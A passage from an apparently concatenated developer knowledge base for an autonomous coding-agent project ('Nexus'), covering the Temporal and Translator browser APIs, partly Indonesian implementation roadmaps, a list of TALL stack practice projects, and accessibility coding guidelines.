  console.log(`Month ${m} has ${targetDate.with({ month: m }).daysInMonth} days.`);
}

// 6. Compare dates within the same calendar
const today = Temporal.Now.plainDateISO().withCalendar(calendarId);
const comparison = Temporal.PlainDate.compare(targetDate, today);
const relative = comparison < 0 ? 'Past' : comparison > 0 ? 'Future' : 'Today';
console.log(`Timeline: ${relative}`);

// 7. Format for display using toLocaleString
const localizedDisplay = targetDate.toLocaleString('en-u-ca-hebrew', {
  day: 'numeric',
  month: 'long',
  year: 'numeric'
});
```

## Strategic Implementation & Best Practices

- **DO** use `monthsInYear` as the upper bound when looping through months, rather than assuming 12.
- **DO** use `monthCode` for identifying specific months in calendars that use leap months (e.g., Hebrew or Chinese), regardless of the year.
- **DO NOT** assume `date.month === 12` is the last month of the year. Use `date.month === date.monthsInYear`.
- **DO NOT** assume `inLeapYear === true` implies the year is only one day longer. In lunisolar calendars, it may add a full leap month.
- **DO** use `Temporal.PlainDate.compare()` when comparing two dates in a specific calendar system instead of comparing Year/Month/Day properties manually.
- **DO** use `toLocaleString()` to format dates for users instead of manual string concatenation.
- **DO** verify that the target calendar system is supported by the environment using `Intl.supportedValuesOf('calendar')` before creating calendar-specific Temporal objects.
- **DO** be aware that some calendars (like variants of the Islamic calendar) may rely on visual observation rather than fixed calculations. The `Temporal` API follows the environment's `Intl` implementation, which usually uses calculated approximations. For critical cultural or religious date calculations, verify with domain experts or use specialized libraries.
- **DO** account for era names when using calendars that use eras (e.g., Japanese, Buddhist), using `toLocaleString()`.

## Fallback Strategy

Temporal has limited availability.
Supported by: Chrome 144 (Jan 2026), Edge 144 (Jan 2026), and Firefox 139 (May 2025).
Unsupported in: Safari.

For production use in browsers that do not support it natively, you must use a polyfill.

The recommended approach is to progressively enhance by checking for native support and dynamically loading a polyfill like `@js-temporal/polyfill` if needed.

```javascript
/**
 * Progressive Enhancement Fallback
 */
async function getTemporal() {
  if (typeof Temporal !== 'undefined') {
    return Temporal;
  }
  
  try {
    // Load polyfill dynamically from CDN
    const module = await import('https://esm.sh/@js-temporal/polyfill');
    globalThis.Temporal = module.Temporal;
    return module.Temporal;
  } catch (e) {
    console.error('Failed to load Temporal polyfill:', e);
    throw e;
  }
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [performance]

### 📘 KNOWLEDGE: NEXUS_TRANSLATOR.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

The **Translator API** allows developers to perform client-side text translation using built-in AI models in Chrome. This approach eliminates the need for cloud-based translation services for ephemeral content, reducing costs and improving privacy by keeping data on the user's device.


## Prerequisites & Requirements

### Browser Support

- **Chrome:** Version 138+ (Desktop only).
- **Not Supported:** Mobile (Android/iOS), Edge, Firefox, Safari.

### Hardware Requirements

To run Gemini Nano and associated models, the system needs:

- **Operating System:** Windows 10/11, macOS 13+, Linux, or ChromeOS (Chromebook
  Plus).
- **Storage:** At least **22 GB** free on the Chrome profile volume.
- **Memory/CPU:** 16 GB+ RAM and 4+ CPU cores.
- **GPU:** 4 GB+ VRAM (Mandatory for Prompt API with audio).
- **Network:** Required only for the initial download of language packs/models.

## Implementation & Code Samples

### 1. Checking Availability & Downloading Models

**Mandatory Options Passing:** You must pass the identical configuration options object to both `Translator.availability(options)` and `Translator.create(options)`.

**Mandatory Progress Monitoring:** You MUST implement a monitor for model download progress by providing a `monitor(m)` callback to `Translator.create()` and adding a listener for the `downloadprogress` event.

**User Gesture Requirement:** When `availability` is `'downloadable'`, triggering the model download via `Translator.create()` requires a user gesture (such as a button click listener context). Unconditional page-load calls will trigger a `NotAllowedError`.

```javascript
const options = {
  sourceLanguage: 'es',
  targetLanguage: 'fr',
};

const availability = await Translator.availability(options);

if (availability === 'available' || availability === 'downloadable') {
  // A user gesture is strictly required to trigger create when downloadable
  document.getElementById('start-translation-btn').addEventListener('click', async () => {
    const translator = await Translator.create({
      ...options,
      monitor(m) {
        m.addEventListener('downloadprogress', (e) => {
          console.log(`Downloaded ${Math.round(e.loaded * 100)}%`);
        });
      },
    });
  });
}
```

### 3. Executing Translations

The API supports both static and streaming responses.

**Standard Translation:**

```javascript
const translator = await Translator.create({
  sourceLanguage: 'en',
  targetLanguage: 'fr',
});

const result = await translator.translate(
  'Where is the next bus stop, please?',
);
console.log(result);
// Output: "Où est le prochain arrêt de bus, s'il vous plaît ?"
```

**Streaming Translation (for long text):**

```javascript
const stream = translator.translateStreaming(longText);
for await (const chunk of stream) {
  console.log(chunk);
}
```

## Supported Languages

The API supports a wide range of BCP 47 language codes: Here are the languages supported by Chrome's implementation of the Translator API:

- **ar**: Arabic
- **bg**: Bulgarian
- **bn**: Bengali
- **cs**: Czech
- **da**: Danish
- **de**: German
- **el**: Greek
- **en**: English
- **es**: Spanish
- **fi**: Finnish
- **fr**: French
- **hi**: Hindi
- **hr**: Croatian
- **hu**: Hungarian
- **id**: Indonesian
- **it**: Italian
- **iw**: Hebrew
- **ja**: Japanese
- **kn**: Kannada
- **ko**: Korean
- **lt**: Lithuanian
- **mr**: Marathi
- **nl**: Dutch
- **no**: Norwegian
- **pl**: Polish
- **pt**: Portuguese
- **ro**: Romanian
- **ru**: Russian
- **sk**: Slovak
- **sl**: Slovenian
- **sv**: Swedish
- **ta**: Tamil
- **te**: Telugu
- **th**: Thai
- **tr**: Turkish
- **uk**: Ukrainian
- **vi**: Vietnamese
- **zh**: Chinese
- **zh-Hant**: Chinese (Traditional)

## Security & Performance

- **Permissions Policy:** Cross-origin iframes require explicit permission.
  ```html
  <iframe src="https://example.com/" allow="translator"></iframe>
  ```
- **Web Workers:** Currently **not supported** due to Permission Policy
  complexities.
- **Privacy:** No data is sent to Google servers during the translation process
  once the model is downloaded.

## Fallback Strategy

Translator has limited availability.
Supported by: Chrome 138 (Jun 2025).
Unsupported in: Edge, Firefox, and Safari.

Before use, check if the `Translator` object is available in the global scope:

```javascript
if ('Translator' in self) {
  // The Translator API is supported.
} else {
  // Execute fallback strategy
}
```

If the `Translator` API is unsupported or availability checks return `'unavailable'`, you must gracefully fall back. 

Recommended options:
1. **Remote API Fallback**: Redirect the translation request to a server endpoint or cloud remote API (such as the Vertex AI Gemini API) to deliver translation functionality.
2. **Graceful Degradation**: Visually disable translation control elements or buttons while showing an end-user friendly note (e.g., `"Client-side translation is currently unsupported in this browser"`). Do not allow unhandled exceptions.
3. **Polyfill Fallback**: You can use community-maintained polyfills like `built-in-ai-task-apis-polyfills` or `prompt-api-polyfill` to emulate the API surface using remote services.

> **Privacy and Cost Implications:** These polyfills proxy requests to remote servers (such as Gemini API over the cloud). This completely nullifies the on-device privacy guarantees of the native Built-in AI APIs and will incur server-side API usage costs.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [performance, tdd, api]

### 📘 KNOWLEDGE: NEXUS_PLAN_NEXT_STEPS.MD

# 🛠 IMPLEMENTATION PLAN: NEXT STEPS (POST-10-LOOP)
> **VERSION**: v1 | **Last Updated**: 26/05/2026


> **REF AUDIT**: [AUDIT-10-LOOP-SCAN](../audit/[audit_SUMMARY_10_LOOP_SCAN.md](../audit/NEXUS_AUDIT_SUMMARY_10_LOOP_SCAN.MD))
> **PLAN ID**: PLAN-20260510-01 | **STATUS**: Ready for Execution

---

## 📋 TASK LIST & ACTIONABLE INSIGHTS

### 📌 Task 1: Implement Real Logic for Orchestrator Tests
- **🧐 Why?**: Memastikan Orchestrator benar-benar mampu mengelola siklus hidup agent dan menangani event bus dengan benar.
- **💡 Action**:
    1.  Update `tests/TDD/Orchestrator.test.js`.
    2.  Tambahkan mock untuk `EventBus` dan `Logger`.
    3.  Verifikasi task routing dan penanganan error.

### 📌 Task 2: Clean Up Scratch & Temporary Assets
- **🧐 Why?**: Menjaga kebersihan repositori dan akurasi scan auditor.
- **💡 Action**:
    1.  Hapus file non-essential di folder `scratch/`.
    2.  Verifikasi entri `nexus/` di `.gitignore`.

### 📌 Task 3: Enhance Machinist Template Logic
- **🧐 Why?**: Template saat ini masih sangat dasar. Perlu peningkatan agar hasil "forge" lebih fungsional.
- **💡 Action**:
    1.  Modifikasi `agent/core/Machinist.js`.
    2.  Tambahkan pola regex yang lebih dinamis pada `getScannerTemplate`.

### 📌 Task 4: Parallelize Distiller Processing
- **🧐 Why?**: Meningkatkan skalabilitas sistem saat menangani Knowledge HUB yang besar.
- **💡 Action**:
    1.  Riset implementasi `worker_threads` di Node.js.
    2.  Refactor `Distiller.js` untuk pemrosesan file secara paralel.

---

## 📅 EXECUTION TIMELINE (ESTIMATED)
| Phase | Task | Duration | Priority |
| :--- | :--- | :--- | :--- |
| **P1** | TDD Activation (Task 1) | 2h | 🔴 HIGH |
| **P2** | Repo Hygiene (Task 2) | 0.5h | 🟡 MED |
| **P3** | Core Refactoring (Task 3 & 4) | 4h | 🟡 MED |

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [planning, roadmap, tdd, refactoring, optimization]
*Generated by Nexus Orchestrator | Ready for Developer Approval*

### 📘 KNOWLEDGE: NEXUS_PLAN_V320_AUTONOMOUS_EVOLUTION.MD

# 🛠 IMPLEMENTATION PLAN: v3.2.0 AUTONOMOUS EVOLUTION
> **VERSION**: v1 | **Last Updated**: 26/05/2026


> **REF AUDIT**: [AUDIT-v320-READINESS](../audit/[audit_v320_AUTONOMOUS_READINESS.md](../audit/NEXUS_AUDIT_V320_AUTONOMOUS_READINESS.MD))
> **PLAN ID**: PLAN-v320-EVO | **STATUS**: Strategic Planning

---

## 📋 TASK LIST: THE AUTONOMOUS ROADMAP

### 📌 Task 1: Resource Monitor Integration (Docker-Ready)
- **🧐 Why?**: Memberikan "kesadaran fisik" pada engine agar tidak overload saat berjalan di container.
- **💡 Action**:
    1.  Buat `agent/core/ResourceMonitor.js`.
    2.  Integrasi dengan `NexusEngine` untuk melakukan *pause/throttle* jika CPU > 80%.
    3.  Tambahkan peringatan "System Stress" di log UTC+8.

### 📌 Task 2: Advanced Conflict Resolution (Supreme Court Agent)
- **🧐 Why?**: Mengurangi ketergantungan pada intervensi manusia dalam pengambilan keputusan teknis.
- **💡 Action**:
    1.  Kembangkan logika `DecisionEngine.js`.
    2.  Gunakan skor bobot (Security > Performance > Clean Code) untuk memilih solusi terbaik secara otomatis.

### 📌 Task 3: Semantic Bridge (Vector Retrieval Prep)
- **🧐 Why?**: Mempersiapkan transisi dari pencarian regex ke pencarian semantik.
- **💡 Action**:
    1.  Update `Distiller.js` untuk menghasilkan metadata JSON yang lebih kaya.
    2.  Siapkan skema untuk integrasi database vektor eksternal.

### 📌 Task 4: Autonomous Skill Forge (Machinist 2.0)
- **🧐 Why?**: Memungkinkan sistem belajar dari pola kode yang ada dan menciptakan "skill" baru secara otomatis.
- **💡 Action**:
    1.  Refactor `Machinist.js` agar bisa mengenali pola fungsional baru dari hasil audit.
    2.  Auto-generation unit test untuk setiap skill baru yang ditempa.

---

## 📅 EXECUTION TIMELINE (v3.2.0)
| Phase | Focus | Duration | Priority |
| :--- | :--- | :--- | :--- |
| **V1** | Resource & Self-Awareness | 3 days | 🔴 HIGH |
| **V2** | Decision & Cognitive Logic | 5 days | 🟡 MED |
| **V3** | External Skill Acquisition | 7 days | 🟢 LOW |

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [planning, autonomous-ai, roadmap, docker, machine-learning-prep]
*Generated by Nexus Orchestrator | Ready for Developer Approval*

### 📘 KNOWLEDGE: NEXUS_DISTILLATION_SAAS.MD

> **VERSION**: v3 | **Last Updated**: 26/05/2026


## 🎓 SAAS WISDOM DISTILLATION [v1109] - 26/05/2026
> **Protocol**: Autonomous Intelligence Extraction | **Focus**: Actionable Tech Insights

### 📄 Managing Recurring Intervals with Temporal
> **Origin**: `guides/user-experience/[manage-recurring-intervals.md](NEXUS_MANAGE-RECURRING-INTERVALS.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
Calculating recurring intervals, such as subscription billing cycles or payroll periods, has historically been error-prone with the legacy `Date` object. Adding a month to a date like January 31st is ambiguous (should it be February 28th/29th or March 3rd?).

The `Temporal` API provides a clean solution with `Temporal.PlainDate` and its `.add()` method, which handles month-end transitions predictably using configurable overflow strategies.


1. **MANDATORY:** **Parse the starting date**: Use `Temporal.PlainDate.from()` to create a date object.
2. **MANDATORY:** **Add the duration**: Use the `.add()` method with a duration object (e.g., `{ months: 1 }`).
3. **OPTIONAL:** **Specify overflow behavior**: Use the `overflow` option to control how invalid dates (like Feb 31) are handled.
    - `'constrain'` (default): Clamps to the last valid day of the month.
    - `'reject'`: Throws a `RangeError`.


```javascript
// 1. Parse the start date (e.g., billing starts on Jan 31st)
const startDate = Temporal.PlainDate.from('2024-01-31');

// 2. Add 1 month with default 'constrain' overflow
// Jan 31 + 1 month -> Feb 29 (2024 is a leap year)
const nextBillingDate = startDa...

#### 🔗 Traceability:
- [Source Context]([manage-recurring-intervals.md](NEXUS_MANAGE-RECURRING-INTERVALS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [saas]

### 📘 KNOWLEDGE: NEXUS_MANAGE-RECURRING-INTERVALS.MD

# Managing Recurring Intervals with Temporal
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Calculating recurring intervals, such as subscription billing cycles or payroll periods, has historically been error-prone with the legacy `Date` object. Adding a month to a date like January 31st is ambiguous (should it be February 28th/29th or March 3rd?).

The `Temporal` API provides a clean solution with `Temporal.PlainDate` and its `.add()` method, which handles month-end transitions predictably using configurable overflow strategies.

## How to Implement

1. **MANDATORY:** **Parse the starting date**: Use `Temporal.PlainDate.from()` to create a date object.
2. **MANDATORY:** **Add the duration**: Use the `.add()` method with a duration object (e.g., `{ months: 1 }`).
3. **OPTIONAL:** **Specify overflow behavior**: Use the `overflow` option to control how invalid dates (like Feb 31) are handled.
    - `'constrain'` (default): Clamps to the last valid day of the month.
    - `'reject'`: Throws a `RangeError`.

### Example: Subscription Billing Cycle

```javascript
// 1. Parse the start date (e.g., billing starts on Jan 31st)
const startDate = Temporal.PlainDate.from('2024-01-31');

// 2. Add 1 month with default 'constrain' overflow
// Jan 31 + 1 month -> Feb 29 (2024 is a leap year)
const nextBillingDate = startDate.add({ months: 1 });
console.log(`Next billing: ${nextBillingDate.toString()}`); // 2024-02-29

// 3. Add 1 month to Feb 29
// Feb 29 + 1 month -> Mar 29
// Note: Day is preserved if valid, otherwise constrained.
const thirdBillingDate = nextBillingDate.add({ months: 1 });
console.log(`Third billing: ${thirdBillingDate.toString()}`); // 2024-03-29

// Example with 'reject' strategy
try {
  // Jan 31 + 1 month with 'reject' throws because Feb 31 is invalid
  const invalidDate = startDate.add({ months: 1 }, { overflow: 'reject' });
} catch (e) {
  console.log("Caught expected error:", e.name); // RangeError
}
```

## Strategic Implementation & Best Practices

- **DO** use `Temporal.PlainDate` for calculations that do not depend on specific times or time zones (like calendar dates or billing cycles).
- **DO** understand the default `constrain` behavior. It is usually what users expect for billing (e.g., Jan 31 -> Feb 28/29 -> Mar 28/29).
- **DO NOT** modify instances directly; `Temporal` objects are **immutable**. Operations return a new instance.
- **DO** use `overflow: 'reject'` if you need to enforce that the resulting date must exist in the calendar and handle failures explicitly.

### Fallback strategies

Temporal has limited availability.
Supported by: Chrome 144 (Jan 2026), Edge 144 (Jan 2026), and Firefox 139 (May 2025).
Unsupported in: Safari.

For browsers that do not yet support the native `Temporal` API, use feature detection and a polyfill. The standard reference polyfill is `@js-temporal/polyfill`.

```javascript
// Check if Temporal is supported natively
(async () => {
  if (typeof Temporal === 'undefined') {
    // Load the polyfill conditionally
    const module = await import("https://esm.sh/@js-temporal/polyfill");
    globalThis.Temporal = module.Temporal;
    // Extend Date.prototype if needed
    Date.prototype.toTemporalInstant = module.toTemporalInstant;
    initializeApp();
  }
})();

function initializeApp() {
  const date = Temporal.PlainDate.from('2024-01-31');
  console.log(date.add({ months: 1 }).toString());
}
```

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [saas]

### 📘 KNOWLEDGE: NEXUS_100 PROJECT TEST TALL STACK.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

## 1. Fundamental CRUD & Auth Projects [Tags: crud, auth, basic, phase-1]
   Todo App realtime
   Notes App dengan tagging
   Bookmark manager
   Habit tracker
   Expense tracker pribadi
   Daily journal app
   Contact manager
   Password manager UI
   URL shortener
   Personal portfolio CMS
## 2. Dashboard & Admin Panel [Tags: dashboard, admin, analytics, phase-1]
   Admin dashboard analytics
   User management system
   Role & permission manager
   Audit log dashboard
   System monitoring dashboard
   Inventory dashboard
   Multi-tenant admin panel
   Subscription management dashboard
   CRM sederhana
   ERP mini system
## 3. Authentication & Security Focus [Tags: security, auth, oauth, phase-2]
   2FA authentication system
   OAuth login integration
   Magic link authentication
   Session management dashboard
   API token manager
   Device activity tracker
   Login anomaly detector
   Email verification workflow
   Password reset flow custom
   Secure file vault
## 4. Realtime & Livewire Intensive [Tags: realtime, livewire, websocket, phase-2]
   Live chat application
   Realtime notification center
   Collaborative notes app
   Multiplayer quiz app
   Live polling system
   Realtime kanban board
   Customer support dashboard
   Stock monitoring dashboard
   Realtime queue monitor
   Live auction platform
## 5. SaaS-Oriented Projects [Tags: saas, billing, multi-tenant, phase-3]
   Invoice SaaS
   Subscription billing platform
   Project management SaaS
   Team collaboration app
   Time tracking SaaS
   Appointment booking SaaS
   Social media scheduler
   File sharing SaaS
   Resume builder SaaS
   Form builder SaaS
## 6. E-Commerce Systems [Tags: ecommerce, marketplace, pos, phase-3]
   Toko online lengkap
   Multi-vendor marketplace
   POS system
   Digital product marketplace
   Food ordering app
   Flash sale platform
   Membership ecommerce
   Dropshipping dashboard
   Affiliate tracking system
   Warehouse management app
## 7. Advanced Livewire Components [Tags: ui, components, alpine, phase-2]
   Drag-and-drop page builder
   Kanban drag-and-drop
   Dynamic form generator
   Reusable datatable package
   Nested comments system
   Dynamic filtering engine
   Realtime search engine
   Infinite scrolling feed
   Media uploader with preview
   Spreadsheet-like editor
## 8. API & Integration Heavy [Tags: api, integration, webhooks, phase-3]
   Payment gateway integration platform
   Email campaign manager
   WhatsApp gateway dashboard
   SMS broadcast platform
   Weather dashboard API
   Cryptocurrency tracker
   AI chatbot dashboard
   OpenAI content generator
   Social media analytics aggregator
   Logistics tracking system
## 9. Enterprise-Level Architectures [Tags: enterprise, hr, school, hospital, phase-4]
   HR management system
   School management system
   Hospital management system
   Manufacturing workflow app
   Procurement management app
   Legal document workflow
   Enterprise approval workflow
   Internal ticketing system
   Corporate knowledge base
   Enterprise document management
## 10. Expert-Level TALL Stack Challenges [Tags: expert, architecture, ddd, event-sourcing, phase-4]
    Multi-tenant SaaS architecture
    Event sourcing implementation
    CQRS dashboard system
    Laravel package generator
    Custom Livewire component library
    Full websocket collaboration suite
    Headless CMS with Livewire admin
    Workflow automation engine
    Visual automation builder
    AI-powered productivity platform

Roadmap Penguasaan TALL Stack

Kalau tujuanmu menjadi “master”, urutan pengerjaan project sangat penting.

Phase 1 — Fundamental Laravel + Livewire

Kerjakan:

1–10
Fokus:
CRUD
validation
authentication
migrations
Eloquent
Blade
Livewire basic state
Phase 2 — Intermediate Reactive UI

Kerjakan:

31–40
61–70
Fokus:
Livewire lifecycle
Alpine interop
realtime UX
event system
reusable components
optimization
Phase 3 — SaaS & Business Logic

Kerjakan:

41–60
Fokus:
subscription
payment
queues
notifications
policies
caching
scaling
Phase 4 — Enterprise Architecture

Kerjakan:

81–100
Fokus:
multi-tenancy
DDD
CQRS
event sourcing
websocket
testing strategy
CI/CD
deployment
observability

Stack Tambahan yang Sangat Direkomendasikan

Backend
Laravel Horizon
Laravel Reverb
Redis
Meilisearch
Elasticsearch
Frontend
Alpine Persist
Alpine Morph
Flux UI / Volt
Infra
Docker
Nginx
CI/CD GitHub Actions
VPS deployment
S3 object storage
Testing
Pest PHP
Laravel Dusk
---

## 🤖 Nexus Project Selection Protocol
Untuk memulai simulasi mandiri (Recursive Evolution), Nexus Agent harus mengikuti langkah berikut:
1. **Target Identification**: Pilih nomor proyek dari daftar di atas berdasarkan Phase yang sedang diuji.
2. **Tag Matching**: Pastikan `EvolutionPiper.js` memiliki template scenario yang cocok dengan `[Tags]` kategori tersebut.
3. **Sandbox Spawning**: Jalankan perintah `piper.spawnSandbox(project_name, tags)` untuk membuat lab pengujian.
4. **Learning Absorption**: Setelah siklus selesai, gunakan `Distiller` untuk menyerap pola kode TALL Stack yang berhasil diimplementasikan ke dalam HUB Utama.

> **Status**: Machine-Readable | **Last Ingested**: 10/05/2026


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, database, ui-ux, performance, tdd, vcs, saas, api]

### 📘 KNOWLEDGE: NEXUS_ACCESSIBILITY.MD

# Accessibility Coding Guidelines
> **VERSION**: v1 | **Last Updated**: 26/05/2026


This guide provides actionable DOs and DON'Ts for AI coding agents to ensure web applications are accessible to all users, including those using assistive technologies.

Keep these principles in mind throughout:

- **Accessibility is the minimum, not the ceiling.** Conformance to standards is the floor; aim for genuine usability.
- **Patterns are use-case specific.** No checklist replaces real testing — including testing with disabled users — to confirm a given implementation is actually accessible in context.

## 1. Content Navigability and Structure

### Actionable Guidelines

#### DOs
- **Place all content within landmarks**: Wrap the page in `<header>`, `<nav>`, `<main>`, `<aside>`, and `<footer>` so assistive-tech users can jump between regions.
- **Structure main content with headings**: Use `<h1>`–`<h6>` sequentially (no jumping `<h1>` → `<h4>`) so screen-reader users get a navigable outline.
- **Use lists for repeated, contiguous content**: `<ul>`/`<ol>` give assistive tech a count up front and let users skip the entire group.
- **Provide skip links** prior to repeated content like site headers with navigation or long/infinite lists, so that keyboard users can easily bypass them. Make sure the target is focusable (e.g. `<main id="content" tabindex="-1">`).
- **Semantic Tables**: Use `<caption>` and `<th scope="col">` (or `<th scope="row">`) for data tables.

#### DON'Ts
- **Don't use fake headings**: Never style `<div>` or `<span>` to look like headings without standard `<h1>`–`<h6>` tags.
- **Don't place headings inside `<summary>`, and avoid relying on headings inside `<details>` content**: Headings inside `<summary>` may be hidden from screen-reader heading lists and heading-navigation shortcuts entirely; headings inside `<details>` content are only reachable via heading navigation when the disclosure is open.
  - **Caveat**: If a heading must act as a disclosure trigger, use a more robust alternative to `<details>`/`<summary>` instead, e.g. an accordion or a disclosure implemented with ARIA where the heading wraps the button.
- **Don't use tables for layout**: Use CSS Grid/Flexbox for visual layouts.
- **Don't overuse landmarks**: Too many landmarks dilute their value. In particular, avoid labeling a `<section>` (which turns it into a `region` landmark) — `region` should be a last resort when no other landmark fits.

### Code Examples

```html
<!-- Good: Semantic landmarks, heading hierarchy, skip link -->
<header>
  <a href="#content" class="skip-link visually-hidden">Skip to content</a>
  <nav aria-label="Primary">
    <ul>
      <li><a href="/">Home</a></li>
    </ul>
  </nav>
</header>
<main id="content" tabindex="-1">
  <h1>Platform Dashboard</h1>
  <section>
    <h2>User Statistics</h2>
    <table>
      <caption>Monthly active users</caption>
      <tr>
        <th scope="col">Month</th>
        <th scope="col">Users</th>
      </tr>
      <tr>
        <td>January</td>
        <td>12,000</td>
      </tr>
    </table>
  </section>
</main>
```

## 2. Semantic HTML and ARIA

### Actionable Guidelines

#### DOs
- **Prefer HTML elements and attributes to ARIA**: A native element comes with the right role and behavior. `<button>` already implies `role="button"`; `required` already implies `aria-required`.
- **Match ARIA implementations to actual behavior**: If you set `role="tab"`, the element must behave like a tab — including keyboard interactions. Many ARIA patterns can't be implemented in CSS alone and need JavaScript.
- **Be deliberate about `disabled` vs `aria-disabled`**: `disabled` removes the element from the focus order entirely (and `tabindex="0"` won't bring it back), which is often wrong for toolbar buttons or links. `aria-disabled="true"` keeps the element focusable so users can land on it and learn it's disabled.

#### DON'Ts
- **Don't use ARIA when native HTML exists**: Avoid `<div role="button">` or `<a role="button">` if `<button>` works.
- **Don't add redundant ARIA roles or properties**: Avoid `<ul role="list">`, `<nav role="navigation">`, or `<input required aria-required="true">`.
  - **Caveat**: Safari removes list semantics from `<ul>`/`<ol>` outside `<nav>` when `list-style: none` or `display: flex`/`grid` is applied. In that case `role="list"` is required to restore them.
- **Don't assume custom elements have no ARIA**: Custom elements can attach ARIA via `ElementInternals`, which some automated test tools can't see — so the absence of `role`/`aria-*` attributes in markup doesn't prove the element has no semantics. Verify with the browser's accessibility-tree inspector.

## 3. Accessible Names and Descriptions

Every interactive element and some landmarks need an accessible name, and many benefit from an accessible description. Names are short and identify the element; descriptions add context.

### Actionable Guidelines

#### DOs
- **Prefer native naming mechanisms**: `<label>` for form controls, `<caption>` for `<table>`, `<legend>` for `<fieldset>`, `<figcaption>` for `<figure>`.
- **Explicitly associate `<label>` with its control via `for`/`id`**, even when nesting the input inside the label — explicit association improves assistive-tech support.
- **Prefer `aria-labelledby` over `aria-label` when a visible label exists**: avoids duplication, improves maintainability, and translates better.
- **Prefer to reuse the same accessible name for hyperlinks that share an `href`.**
- **Use visually hidden text to disambiguate controls** that look identical visually but do different things (e.g. multiple "Edit" buttons in a list).

#### DON'Ts
- **Don't put `aria-label`/`aria-labelledby` on elements that shouldn't be named** — e.g. plain `<div>`, `<span>`, or custom elements without a role. Custom elements may have an implicit role set via `ElementInternals`, so the absence of a `role` attribute isn't conclusive.
- **Don't reuse an accessible name across controls with different effects in the same view** (close buttons for two different open dialogs are fine because only one is reachable at a time; multiple “Edit” buttons for different content is not).
- **Don't reuse an accessible name across hyperlinks pointing to different `href`s.**
- **Don't pack descriptions, error messages, or instructions into the label.**
- **Don't repeat state already exposed via ARIA** (`aria-expanded`, `aria-checked`, `aria-selected`, `aria-pressed`) inside the accessible name — it creates redundancy and ambiguity.
- **Don't include the role name in the label**: `<nav aria-label="Primary navigation">` reads as "Primary navigation navigation."
- **Don't use `title` or `placeholder` as a naming mechanism.**
- **Don't include interactive elements in an `aria-describedby` target** unless their text content reads sensibly as a description on its own (e.g. if a link’s text is the same as how it’s labelled elsewhere, it can be included within a description).

### Code Example: Visually Hidden Utility

A `.visually-hidden` utility lets you provide text for screen readers without rendering it visually. It's commonly used for skip links, additional context on icon-only buttons, and supplementary labels.

```css
/* Hides content visually but keeps it in the accessibility tree.
   :focus-within / :active opt elements out — useful for skip links and
   any focusable content wrapped in this class. */
.visually-hidden:where(:not(:focus-within, :active)) {
  position: absolute !important;
  clip-path: inset(50%) !important;
  overflow: hidden !important;
  width: 1px !important;
  height: 1px !important;
  margin: -1px !important;
  padding: 0 !important;
  border: 0 !important;
  white-space: nowrap !important;
}
```

When the hidden content is focusable (skip links, focus-receiving wrappers), the `:focus-within`/`:active` exception lets it become visible. Style the visible state per situation, e.g. a skip link to the main content typically wants fixed positioning at the top-left of the viewport so the rest of the page doesn't shift.

## 4. Document Metadata and Language

### Actionable Guidelines

#### DOs
- **Declare Visual Language**: Always set `<html lang="en">` (or appropriate code).
- **Unique Page Titles**: Front-load unique context in `<title>` (e.g., `Page Topic | Site Name`).
- **Inline Language Switches**: Use `lang="..."` for block quotes or text in different languages.
- **IFrame Titles**: Always provide a descriptive `title="..."` for `<iframe>` elements.
- **Update document title on Page Transitions in SPAs**: Shift focus to updated titles.

#### DON'Ts
- **Don't Disable iframe Scrolling**: Avoid `scrolling="no"` (deprecated) or `overflow: hidden` on iframes. Users who zoom in or enlarge text need to scroll to reach content that overflows.

### Code Examples

```html
<!-- Good: Distinct title and language declaration -->
<html lang="en">
<head>
  <title>Analytics Reports | Guidance Platform</title>
</head>
<body>
  <p>The motto is <span lang="la">"Carpe diem"</span>.</p>
  <iframe title="Interactive Sales Chart" src="/chart"></iframe>
</body>
</html>
```

## 5. Keyboard and Focus Management

### Actionable Guidelines

#### DOs
- **Logical Tab Order**: Ensure tab order matches visual layouts (top-to-bottom).
- **Visible Focus Indicators**: Always style `:focus-visible` states explicitly. If disabling defaults, provide overrides with sufficient contrast.
- **Custom Trigger Keyboards**: Attach Enter/Space handlers for custom simulated interactive elements. When implementing a custom keyboard handler for button-like elements, `Enter` should be a `keydown` handler and `Space` should be a `keyup` handler (matching native `<button>` behavior where `Enter` repeats and `Space` triggers on release).
- **Use `tabindex` deliberately**: Anything focusable — by keyboard or programmatically — should have an implicit or explicit ARIA role, so don't make every element focusable. When focus is needed, choose `tabindex="0"` to add the element to the tab order or `tabindex="-1"` to make it programmatically focusable only (e.g., a skip-link target).
- **Manage Toggle States**: Utilize `aria-expanded` and `aria-pressed` to communicate toggle states for custom controls.

#### DON'Ts
- **Don't disable outlines without replacements**: Avoid `outline: none` without styling alternatives.
- **Don't use Positive Tabindex values**: Never use `tabindex="1"` or greater.
- **Don't hide interactive elements from screen readers**: Avoid `aria-hidden="true"` or `role="presentation"` on elements that can receive focus.

### Code Examples

```css
/* Good: High contrast focus border */
:where(a:any-link, button):focus-visible {
  outline: 3px solid #ff0055;
  outline-offset: 3px;
}
```

```html
<!-- Good: Skip to main content -->
<a href="#content" class="skip-link">Skip to main content</a>
<main id="content" tabindex="-1">...</main>
```

```javascript
// Good: Keyboard handlers for complex custom widgets (e.g., Tree items, tabs).
// NOTE: This pattern applies ONLY to non-standard UI where no native HTML tag exists.
// Always prioritize native <button> or <input> elements for standard interactions.
// Elements MUST have the appropriate ARIA role (e.g., role="treeitem" or role="tab").
customWidget.addEventListener('keydown', (e) => {
  if (e.key === 'Enter') {
    toggleWidgetState();
  }
  if (e.key === ' ') {
    e.preventDefault(); // Prevent page scrolling on Spacebar keydown
  }
});

customWidget.addEventListener('keyup', (e) => {
  if (e.key === ' ') {
    toggleWidgetState();
  }
});

function toggleWidgetState() {
  // E.g., Manage toggle/expanded states for custom controls
  const isExpanded = customWidget.getAttribute('aria-expanded') === 'true';
  customWidget.setAttribute('aria-expanded', !isExpanded);
}
```

## 6. Alternate Text and Media

### Actionable Guidelines

#### DOs
